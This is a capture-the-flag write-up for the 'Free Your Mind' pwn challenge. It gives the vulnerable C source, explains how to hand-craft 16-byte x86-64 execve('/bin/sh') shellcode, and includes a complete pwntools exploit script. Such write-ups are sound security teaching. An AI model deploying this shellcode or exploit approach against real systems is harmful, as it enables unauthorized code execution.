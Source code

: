 # Free Your Mind - PWN (200pts)

```c
#include <stdio.h>
#include <unistd.h>

char shellcode[16];

int main() {
    char binsh[8] = "/bin/sh";

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    printf("I'm trying to free your mind, Neo. But I can only show you the door\
. You're the one that has to walk through it.\n");
    read(0, shellcode, 16);

    ((void (*)()) (shellcode))();
}
```

## Investigation
This challenge is more a task of avoiding constraints rather than identifying a weakness and exploiting it. From the source code we can see that the binary reads input data, stores it in the array declared as shellcode and then attempts to run this as a function. Assuming we can input a working shellcode to the binary, it should spawn a shell. Since the pointer is provided by the source code, we don't have to worry about ASLR for this challenge.

But there is a problem - The allocated memory for shellcode is only 16 bytes. By using conventional methods such as pwntools shellcraft.sh() or cherrypicking shellcode from shell-storm.org we will end up with too many bytes and our exploit will not work. 

For example, by using `asm(shellcraft.sh())`, we end up with 48 bytes of shellcode. You could potentially MacGyver some short online shellcode with the right pointer, but where is the fun in that?

## Solution

It looks like we will just have to write our own shellcode, which is probably the intended solution by the author as well. It forces us to learn how it works and that makes it a good chall in my opinion. Let's first understand what we need to do. The code we want to execute is a syscall known as `execve('/bin/sh')`. Since we are coding this in Assembly we need to check the register and value set-up before we start. A good resource on this is https://filippo.io/linux-syscall-table/. Search for execve and double click the entry to expand.

We see that execve() is a syscall that needs RAX to have the value of 59 (0x3b) when you call the system. It then takes three arguments; a filename pointer in RDI, an argv in RSI and env in RDX. We don't really care about the last two. To explain this in terms of pseudo-Assembly we want to execute `syscall(RAX, RDI, RSI, RDX)`, where `RAX=0x3b`, `RDI=<pointer to '/bin/sh'>`, `RSI=0x0` and `RDX=0x0`.

The static values are easy, we know them now. All we need is the pointer. Open the binary in GDB, run, CTRL+C to interrupt the process and type `find '/bin/sh'`. We know from the source code that there is a pointer in main so we just need to grab it: `0x4011b3`

Now we can stitch together assembly-code. We know that we need the code to be 16 bytes or lower, so let's use the 32-bit registers to make the syscall to shorten down. We can start with the parameters of execve(): `EDI, ESI, EDX`:

`mov edi, 0x4011b3;`, `xor esi, esi;`, `xor edx, edx;`. XORing a register with itself is an effective way of zeroing it out rather than using mov and 0x0.

That's our params set up. Now to make the right syscall - EAX needs to be 0x3b:

`mov eax, 0x3b;` and then make the call to system: `syscall;`.

Stitch it together with pwntools asm():

```py
shellcode = asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall')
```

This translates to `execve('/bin'sh')` You can check the length of the shellcode with a quick python sandbox:
```py
>>> from pwn import *
>>> len(asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall'))
16
```

That should do the trick. Now plop it into a script and run the exploit:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
context.terminal = ['tmux', 'splitw', '-h']
#context.log_level = 'DEBUG'

gdbscript = '''
b *0x0000000000401245
continue
'''.format(**locals())

io = process('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
#io = gdb.debug('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d',  gdbscript=gdbscript)
#io = remote('chal.ctf.b01lers.com', '1007')

shellcode = asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall')

log.info(f'Shellcode length: {len(shellcode)}')
print(len(asm(shellcraft.sh())))

io.sendlineafter('it.', shellcode)

io.interactive()
```

![](assets/pwned.png)

Remote was down when I wrote this, but exploits works:)
